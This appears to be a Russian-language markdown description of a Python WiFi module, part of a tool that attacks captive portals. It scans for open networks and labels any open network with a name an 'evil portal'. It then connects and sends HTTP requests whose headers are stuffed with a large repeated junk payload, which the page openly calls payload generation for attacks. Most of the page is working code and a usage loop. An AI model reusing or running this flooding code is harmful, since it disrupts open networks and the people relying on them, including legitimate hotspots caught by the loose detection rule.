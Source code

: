 # NetworkManager

## Описание

NetworkManager - это модуль, отвечающий за работу с WiFi сетями. Он обеспечивает:
- Сканирование доступных сетей
- Подключение к сетям
- Отправку HTTP запросов
- Генерацию payload для атак

## Основные функции

### Инициализация
```python
def __init__(self):
    self.wifi = pywifi.PyWiFi()
    self.iface = self.wifi.interfaces()[0]
    self.logger = logging.getLogger(__name__)
```

### Генерация payload
```python
def generate_payload(self) -> str:
    return 'vorobushek' * (PAYLOAD_SIZE // 10)
```

### Создание профиля WiFi
```python
def create_profile(self, ssid: str) -> pywifi.Profile:
    profile = pywifi.Profile()
    profile.ssid = ssid
    profile.auth = pywifi.const.AUTH_ALG_OPEN
    profile.akm.append(pywifi.const.AKM_TYPE_NONE)
    profile.cipher = pywifi.const.AKM_TYPE_NONE
    profile.key = ''
    return profile
```

### Подключение к сети
```python
def connect_to_network(self, ssid: str) -> bool:
    try:
        self.iface.disconnect()
        profile = self.create_profile(ssid)
        self.iface.connect(self.iface.add_network_profile(profile))
        return True
    except Exception as e:
        self.logger.error(f"Ошибка подключения к сети {ssid}: {str(e)}")
        return False
```

### Сканирование сетей
```python
def scan_networks(self) -> List[pywifi.ScanResult]:
    try:
        self.iface.scan()
        return self.iface.scan_results()
    except Exception as e:
        self.logger.error(f"Ошибка сканирования сетей: {str(e)}")
        return []
```

### Проверка на Evil Portal
```python
def is_evil_portal(self, result: pywifi.ScanResult) -> bool:
    return (result.akm == [pywifi.const.AKM_TYPE_NONE] and 
            result.cipher == pywifi.const.AKM_TYPE_NONE and 
            result.ssid.strip() != '')
```

### Отправка HTTP запросов
```python
def send_request(self, url: str, method: str = 'GET', payload: dict = None) -> requests.Response:
    headers = {
        'user-agent': self.generate_payload(),
        'cookie': self.generate_payload(),
        'accept': self.generate_payload(),
        'accept-encoding': self.generate_payload(),
        'accept-language': self.generate_payload()
    }
    
    try:
        if method.upper() == 'GET':
            return requests.get(url, params=payload, headers=headers, timeout=CONNECTION_TIMEOUT)
        else:
            return requests.post(url, json=payload, headers=headers, timeout=CONNECTION_TIMEOUT)
    except requests.RequestException as e:
        self.logger.error(f"Ошибка отправки запроса: {str(e)}")
        raise
```

## Использование

```python
# Создание экземпляра
network_manager = NetworkManager()

# Сканирование сетей
networks = network_manager.scan_networks()

# Проверка сети
for network in networks:
    if network_manager.is_evil_portal(network):
        # Подключение к сети
        if network_manager.connect_to_network(network.ssid):
            # Отправка запроса
            response = network_manager.send_request('http://example.com')
```

## Обработка ошибок

Модуль обрабатывает следующие типы ошибок:
- Ошибки подключения к сети
- Ошибки сканирования
- Ошибки HTTP запросов
- Ошибки создания профиля

Все ошибки логируются и обрабатываются на уровне модуля. 